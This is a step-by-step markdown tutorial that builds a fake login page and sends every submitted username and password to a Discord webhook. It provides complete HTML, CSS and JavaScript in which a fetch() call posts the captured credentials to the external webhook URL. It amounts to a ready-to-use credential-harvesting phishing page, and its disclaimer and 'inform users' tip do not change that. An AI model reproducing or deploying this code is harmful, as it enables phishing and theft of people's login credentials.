 # Create a Login Page Webhook – Step by Step

**Disclaimer:** This guide is intended for educational purposes only. Unauthorized collection of user credentials is illegal and unethical. Use this knowledge responsibly and ethically.

This tutorial demonstrates how to create a login page that sends entered credentials to a webhook. Created by @bst04.

***

### 📌 Basic Information

1. **Webhooks**
   * A webhook is an HTTP callback that allows one application to send real-time data to another.
   * Common platforms like Discord, Slack, or custom APIs can receive webhook data.
2. **Tools Used**
   * **HTML:** To structure the login form.
   * **CSS:** To style the login page.
   * **JavaScript:** To handle form submission and send data to the webhook.
3. **Platforms**
   * For simplicity, we'll use **Discord** as an example to receive the webhook data.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

* Basic knowledge of HTML, CSS, and JavaScript.
* A webhook URL (e.g., from Discord, Slack, or any custom API).
* A text editor (e.g., VS Code, Sublime Text).

***

### 🚀 Step-by-Step Process

#### **Step 1: Set Up Your Webhook**

1.  Choose a platform to receive the data. For this example, we'll use **Discord**:

    * Go to [Discord](https://discord.com/).
    * Create a server if you don't already have one.
    * Right-click on a channel → **Integrations** → **Webhooks** → **Create Webhook**.
    * Copy the webhook URL provided by Discord.

    Example Webhook URL:

    ```
    https://discord.com/api/webhooks/1234567890abcdefg/your_webhook_key_here
    ```

***

#### **Step 2: Create the Login Page (HTML + CSS)**

1.  Create an `index.html` file with the following code:

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Login Page</title>
        <style>
            body {
                font-family: Arial, sans-serif;
                background-color: #f2f2f2;
                display: flex;
                justify-content: center;
                align-items: center;
                height: 100vh;
                margin: 0;
            }
            .login-container {
                background-color: white;
                padding: 20px;
                border-radius: 8px;
                box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
                width: 300px;
            }
            .login-container h2 {
                margin-bottom: 20px;
                text-align: center;
            }
            .login-container input {
                width: 100%;
                padding: 10px;
                margin: 10px 0;
                border: 1px solid #ccc;
                border-radius: 4px;
            }
            .login-container button {
                width: 100%;
                padding: 10px;
                background-color: #4CAF50;
                color: white;
                border: none;
                border-radius: 4px;
                cursor: pointer;
            }
            .login-container button:hover {
                background-color: #45a049;
            }
        </style>
    </head>
    <body>
        <div class="login-container">
            <h2>Login</h2>
            <form id="loginForm">
                <input type="text" id="username" placeholder="Username" required>
                <input type="password" id="password" placeholder="Password" required>
                <button type="submit">Login</button>
            </form>
        </div>

        <script src="script.js"></script>
    </body>
    </html>
    ```

***

#### **Step 3: Add JavaScript to Send Data to the Webhook**

1.  Create a `script.js` file with the following code:

    ```javascript
    document.getElementById("loginForm").addEventListener("submit", function(event) {
        event.preventDefault(); // Prevent the form from refreshing the page

        // Get the username and password from the form
        const username = document.getElementById("username").value;
        const password = document.getElementById("password").value;

        // Construct the payload to send to the webhook
        const payload = {
            embeds: [{
                title: "Login Attempt",
                fields: [
                    { name: "Username", value: username, inline: true },
                    { name: "Password", value: password, inline: true }
                ],
                color: 0x00ff00 // Green color
            }]
        };

        // Replace with your webhook URL
        const webhookUrl = "https://discord.com/api/webhooks/1234567890abcdefg/your_webhook_key_here";

        // Send the data to the webhook
        fetch(webhookUrl, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify(payload)
        })
        .then(response => {
            if (response.ok) {
                alert("Data sent successfully!");
            } else {
                alert("Failed to send data.");
            }
        })
        .catch(error => {
            console.error("Error:", error);
            alert("An error occurred while sending data.");
        });
    });
    ```

***

#### **Step 4: Test the Setup**

1. Save both files (`index.html` and `script.js`) in the same directory.
2. Open `index.html` in your browser.
3. Enter a username and password in the login form and submit it.
4. Check your webhook platform (e.g., Discord) to see if the data was received.

***

#### **Step 5: Customize the Webhook Message**

You can customize the message format sent to the webhook. For example:

**Updated Payload Example:**

```javascript
const payload = {
    content: `Login Attempt:\nUsername: ${username}\nPassword: ${password}`
};
```

This will send a plain-text message instead of an embed.

***

### 🛠 Tips and Best Practices

1. **Use HTTPS:** If hosting this login page online, ensure it is served over HTTPS to protect data in transit.
2. **Inform Users:** Always inform users that their data will be sent to a webhook for demonstration or testing purposes.
3. **Test Locally:** Use local development tools (e.g., `localhost`) to test the functionality before deploying it.
4. **Secure Your Webhook URL:** Keep your webhook URL private to prevent unauthorized access.

***

### Conclusion

By following these steps, you can create a simple login page that sends entered credentials to a webhook. This setup is useful for learning about webhooks, form handling, and API communication. Remember to use this knowledge responsibly and ethically.
